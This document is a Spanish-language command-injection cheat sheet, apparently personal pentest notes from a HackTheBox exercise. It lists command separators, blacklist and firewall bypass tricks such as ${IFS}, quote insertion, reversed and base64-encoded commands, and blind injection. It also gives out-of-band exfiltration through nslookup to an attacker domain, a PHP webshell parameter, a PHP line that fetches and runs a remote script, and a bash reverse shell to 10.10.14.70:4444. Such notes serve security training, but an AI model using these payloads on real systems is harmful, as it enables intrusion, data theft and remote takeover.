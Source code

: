 siempre que se haga una consulta sobre un item a un backend contastar si es posible una injección de comando aparte de una sqli, 
algunos backends corren código para hacer querys sobre aplicaciones légacy ;)


Semicolon 	; 	%3b 	Both
New Line 	 \n 	%0a 	Both
Background 	& 	%26 	Both (second output generally shown first)
Pipe 	      | 	%7c 	Both (only second output is shown)
AND 	     && 	%26%26 	Both (only if first succeeds)
OR 	       || 	%7c%7c 	Second (only if first fails)
Sub-Shell  `` 	%60%60 	Both (Linux-only)
Sub-Shell  $() 	%24%28%29 	Both (Linux-only)

podemos luego de encontrar el conector entre comandos, si hay algún filtro posterior utilizar diferentes secuencias:


${IFS} inserta un espacio y una tabulación y luego el comando


{ls,-la} agrega comandos como argumentos y agregando espacios en los mismos

para bypassear blacklisted characters se puede utilizar una extracción del caracter del index de una variable de entorno:


${PATH:0:1} (en este caso estaríamos extrayendo el caracter del index 0 de la variable PATH que sería "/"


$env:HOMEPATH[0] mismo ejemplo en windows

podemos concatenar estas técnicas, ej:


127.0.0.1%0a{ls,${PATH:0:1}home}

SQL Injection 	' , ; -- /* */


Command Injection 	; &&


LDAP Injection 	* ( ) & |


XPath Injection 	' or and not substring concat count


OS Command Injection 	; & |


Code Injection 	' ; -- /* */ $() ${} #{} %{} ^


Directory Traversal/File Path Traversal 	../ ..\\ %00


Object Injection 	; & |


XQuery Injection 	' ; -- /* */


Shellcode Injection 	\x \u %u %n


Header Injection 	\n \r\n \t %0d %0a %09



### bypass command blacklisted

podemos agregar caracteres que no son tomados en cuenta en linux y windows como las comillas simples y dobles entre la morfologia del comando

who'am'i

who"am"i

##### Linux only:
who$@ami

w\ho\am\i

##### Windows:
 who^ami

podemos encontrarnos otras medidas como firewalls que nos bloqueen los comandos, con lo cual podemos utilizar diferentes técnicas de bypass:
Case manipulation:

WhOaMi 

Para las terminales case-sensitive como la terminal de linux, podemos utilizar comandos como:

  $(tr "[A-Z]"%09"[a-z]"<<<"WhOaMi")

  
o aplicando un reversing:

##### Linux:

  $(rev<<<'imaohw')

##### Windows:
  iex "$('imaohw'[-1..-20] -join '')"

#### Encodear un comando:

ejemplo de comando pasado a base64:

    echo -n 'cat /etc/passwd | grep 33' | base64

resultado: Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==

    payload: bash<<<$(base64 -d<<<Y2F0IC9ldGMvcGFzc3dkIHwgZ3JlcCAzMw==)


### Blind command injection
Podemos probar blind command injections utilizando comandos que incluyan un temporizador:

parametro= x||ping+-c+10+127.0.0.1||

Redirecting Output:
Podemos también crear archivos internos con la información de los comandos, de esta manera podremos luego visitar el archivo
creado y consultar el resultado:
parametro = || whoami > /var/www/static/whoami.txt ||

Out-of-band exfiltration:
x || nslockup 'whoami'.servidor-del-atacante.com ||
Nos llegara una request a un subdominio con los datos del comando ejecutado.


################## Code injection en un parametro php:
podemos crear una webshell en un parámetro php que ejecuta código de la siguiente manera:

        parameter = ${system($_GET[cmd])}&cmd=


### Obteniendo una shell 2:

##### agregar en una página un código php:
        <?php system("curl 10.10.14.70:8080/rev.sh|bash"); ?>

##### crear la shell
        echo -e '#!/bin/bash\nsh -i >& /dev/tcp/10.10.14.70/4444 0>&1' > rev.sh

##### iniciar un servidor python y un netcat

##### Llamar a la páginacon curl:

        curl -k "http://dev.devvortex.htb/templates/cassiopeia/error.php/error"

##### Obtener una mejor shell:
        script /dev/null -c bash
